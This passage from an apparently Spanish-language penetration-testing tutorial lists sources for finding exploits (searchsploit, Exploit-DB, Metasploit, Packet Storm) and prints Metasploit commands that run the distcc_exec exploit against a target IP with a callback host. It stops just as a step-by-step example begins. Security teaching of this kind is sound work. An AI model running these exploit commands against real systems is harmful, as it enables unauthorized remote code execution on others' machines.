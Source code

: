 Resultado típico:

```
WordPress < 5.7 - Remote Code Execution       | php/webapps/49877.py
```

---

#### 🔹 Opción 2: Usar Exploit-DB en línea

👉 Sitio web: [https://www.exploit-db.com/](https://www.exploit-db.com/)

Puedes buscar por:

- Nombre del software
- CVE
- Plataforma (Windows, Linux, etc.)
- Tipo (RCE, DoS, LFI, etc.)

---

#### 🔹 Opción 3: Usar Metasploit Framework

Metasploit incluye cientos de exploits y payloads que puedes buscar y ejecutar.

```bash
msfconsole
```

Buscar:

```bash
search samba
```

Usar:

```bash
use exploit/unix/misc/distcc_exec
set RHOST 192.168.1.20
set LHOST 192.168.1.100
run
```

---

#### 🔹 Opción 4: Packet Storm

👉 Sitio web: [https://packetstormsecurity.com/](https://packetstormsecurity.com/)

Ahí puedes buscar exploits por fecha, nombre, tipo, y descargar los archivos directamente.

---

### ✅ Ejemplo completo paso a paso

---

#### 🎯 Objetivo:
